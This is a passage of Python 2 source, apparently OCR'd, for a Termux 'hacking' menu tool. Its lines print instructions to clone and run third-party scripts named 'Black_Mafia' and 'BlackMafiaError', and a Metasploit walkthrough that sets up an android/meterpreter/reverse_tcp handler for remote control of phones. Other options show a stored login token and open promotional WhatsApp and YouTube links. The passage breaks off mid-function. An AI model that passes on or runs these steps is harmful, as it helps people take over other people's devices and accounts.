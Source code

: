                 jalan('\033[1;91mpasword: lovehacker')
                jalan('\033[1;93m⭕No19⭕')
                jalan('\033[1;91mpkg update ')
                jalan('\033[1;91mpkg upgrade')
                jalan('\033[1;91mpkg install python2 ')
                jalan('\033[1;91mpip2 install mechanize')
                jalan('\033[1;91mpkg install git ')
                jalan('\033[1;91mpip2 install mechanize ')
                jalan('\033[1;91mpip2 install requests ')
                jalan('\033[1;91mgit clone https://github.com/lovehacker404/BlackMafiaError')
                jalan('\033[1;91mcd BlackMafiaError')
                jalan('\033[1;91mpython2 Error.py')
                jalan('\033[1;92m⭕No20⭕')
                jalan('\033[1;91mapt update')
                jalan('\033[1;91mapt upgrade -y ')
                jalan('\033[1;91mpkg install python -y ')
                jalan('\033[1;91mgit clone https://github.com/lovehacker404/Black_Mafia')
                jalan('\033[1;91mcd Black_Mafia')
                jalan('\033[1;91mpython3 Black_Mafia.py')
                jalan('\033[1;91m#Metasploit Commands')
                jalan('\033[1;91m》》Requirements:-')
                jalan('\033[1;91m1: Termux App (From Playstore)')
                jalan('\033[1;91m2: Good Internet connection  (Must)')
                jalan('\033[1;91m3: 2GB free Storage  (Must)')
                jalan('\033[1;91m4: Android Version 5.0+ (Must)')
                jalan('\033[1;91m5: 4GB+ RAM')
                jalan('\033[1;91m6: Fast Processor')
                jalan('\033[1;91m#installation')
                jalan('\033[1;91m1: pkg update')
                jalan('\033[1;91m2: pkg upgrade')
                jalan('\033[1;91m3: pkg install unstable-repo')
                jalan('\033[1;91m4: pkg install metasploit')
                jalan('\033[1;91m5: msfconsole')
                jalan('\033[1;91m6: use exploit/multi/handler')
                jalan('\033[1;91m7: set payload android/meterpreter/reverse_tcp ')
                jalan('\033[1;91m8: set lhost ')
                jalan('\033[1;91m9: set lport 8080')
                jalan('\033[1;91m10: exploit')
		os.system('git pull origin master')
		raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
		menu()
        elif unikers =="7":
		os.system('xdg-open https://chat.whatsapp.com/FmuKakzK8oV3Rp6gpf9Xqr')
	        menu()
        elif unikers =="8":
	        os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
	        menu()
        elif unikers =="9":
		tokenz()
        elif unikers =="10":
		os.system('reset')
		print logo14
		toket=open('login.txt','r').read()
		print "\033[1;91m[+] \033[1;95mYour token\033[1;91m :\033[1;96m "+toket
		raw_input("\n\033[1;91m[ \033[1;93mBack \033[1;91m]")
		menu()
	elif unikers =="11":
		os.system('clear')
		print logo6
		print "\033[1;95m«-----------------\033[1;91mDataReset\033[1;95m---------------»"
                jalan('\033[1;96m=10%')
                jalan("\033[1;96m==20%")
                jalan('\033[1;96m===30%')
                jalan('\033[1;96m====40%')